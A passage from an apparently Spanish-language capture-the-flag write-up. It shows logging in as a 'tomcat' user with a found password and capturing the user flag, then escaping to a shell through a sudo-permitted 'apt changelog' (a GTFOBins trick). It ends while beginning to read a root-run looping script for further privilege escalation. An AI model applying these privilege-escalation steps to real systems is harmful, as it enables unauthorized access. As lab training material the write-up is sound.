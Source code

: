 Por lo que haremos.

```shell
su tomcat
```

Y metemos como contraseña `tomcatelmejor` por lo que ya seremos el usuario y leeremos la flag.

> user.txt

```
b1ce018caed50700faffff22b16f5903
```

## Escalate user deamon

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for tomcat on 48b4171dbb9e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tomcat may run the following commands on 48b4171dbb9e:
    (deamon : deamon) NOPASSWD: /usr/bin/apt
```

Podemos ejecutar como el usuario `deamon` el binario de `apt` por lo que haremos lo siguiente.

URL = https://gtfobins.github.io/gtfobins/apt/#sudo

```shell
sudo -u deamon apt changelog apt
```

Y cuando estemos dentro del `changelog` escribimos lo siguiente.

```shell
!/bin/sh
```

Despues para tener una `bash`.

```shell
/bin/bash
```

Y con esto ya seremos el usuario `deamon`.

## Escalate Privileges

Si vemos los procesos que se estan corriendo, veremos uno en el que `root` esta ejecutando en forma de bucle un script en `/usr/local/bin/` llamado `deamon.sh` que si lo leemos para ver que hace, vemos lo siguiente.

```sh
#!/bin/bash

# ------------------------------------------------------------------------------
# Inicio del Script
# ------------------------------------------------------------------------------
# Este script realiza diversas operaciones comunes en bash, como manejo de archivos,
# directorios y control de flujo. Cada sección está comentada para explicar lo que
# está haciendo.
# ------------------------------------------------------------------------------
echo "Inicio del script: Configuración y ejecución de tareas."
# Imprime un mensaje indicando que el script ha comenzado.

# ------------------------------------------------------------------------------
# Configuración de Variables
# ------------------------------------------------------------------------------
```